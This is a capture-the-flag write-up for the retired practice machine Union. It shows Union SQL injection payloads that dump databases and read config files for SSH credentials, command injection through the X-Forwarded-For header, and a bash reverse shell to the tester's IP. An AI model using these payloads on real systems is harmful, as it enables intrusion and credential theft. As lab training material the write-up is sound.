 # Union

This is the write-up for the box Union that got retired at the 23rd November 2021.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.128    union.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/union.nmap 10.10.11.128
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service hosts a custom developed website with the title _"Join the UHC - November Qualifiers"_ and there is an input field.
When typing anything into the field, it reveals a link to _challenge.php_ and on there it expects the _first flag_.

When sending a name of a real user of the **UHC November Qualifiers** like the creator of the box _ippsec_, then it shows a different message then when sending anything else:
```
Sorry, ippsec you are not eligible due to already qualifying.
```

By testing for **SQL Injection** in this field, it can be proofed that it is possible as the comment is not displayed in the username:
```
POST /index.php HTTP/1.1
Host: 10.10.11.128
(...)

player=ippsec'-- -
```

Using **Union SQL Injection** to check number of fields:
```
player=ippsec' union select 1-- -

player=ippsec' union select 1,2-- -
```

The second query fails, so there seems to be only one field.
Getting information out of the _information_schema database_:
```
player=' union select group_concat(schema_name) from information_schema.schemata-- -
```
```
Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.
```

It shows the names of the databases _mysql_, _information_schema_, _performance_schema_, _sys_, _november_ in the response output.

Getting table and column names from database _november_:
```
player=' union select group_concat(TABLE_NAME,':', COLUMN_NAME, "\n") from information_schema.columns where TABLE_SCHEMA like 'november'-- -
```
```
Sorry, flag:one
,players:player
 you are not eligible due to already qualifying.
```

Getting contents of the table _players_:
```
player=' union select group_concat(player, "\n") from november.players-- -
```
```
Sorry, ippsec
,celesian
,big0us
,luska
,tinyboy
you are not eligible due to already qualifying.
```

Getting contents of the table _flag_:
```
player=' union select group_concat(one, "\n") from november.flag-- -
```
```
Sorry, UHC{F1rst_5tep_2_Qualify}
you are not eligible due to already qualifying.
```

When sending the flag to _challenge.php_, it forwards to _firewall.php_ and shows a message, that our IP address has been granted SSH access:
```
Welcome Back!
Your IP Address has now been granted SSH Access.
```

The port 22 for SSH is now open and can be reached, but we have no credentials yet:
```
nc -zv 10.10.11.128 22

Ncat: Connected to 10.10.11.128:22.
```

The **SQL Injection** vulnerability can be used to read files from the file system.
The file _firewall.php_ requires _config.php_ and this file contains credentials:
```
player=' union select LOAD_FILE('/var/www/html/firewall.php')-- -

player=' union select LOAD_FILE('/var/www/html/config.php')-- -
```
```
(...)
$username = "uhc";
$password = "uhc-11qual-global-pw";
$dbname = "november";
```

With these credentials, it is possible to access the box via SSH:
```
ssh uhc@10.10.11.128
```

## Privilege Escalation

The file _/var/www/html/firewall.php_ has the code of the SSH enabling:
```
(...)
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
(...)
```

It will send the variable _ip_ in the _X-FORWARDED-FOR_ header and it should be possible to inject commands:
```
GET /firewall.php HTTP/1.1
(...)
X-FORWARDED-FOR: ;sleep 3;
```

With the `sleep` command, it took three seconds until the response came back, so arbitrary command execution is proofed.
Sending a reverse shell command:
```
X-FORWARDED-FOR: ;bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1';
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

### Privilege Escalation to root

The `sudo` permissions of _www-data_ shows that the user can run any command as root:
```
User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

When running `sudo bash`, it will spawn a shell as root!
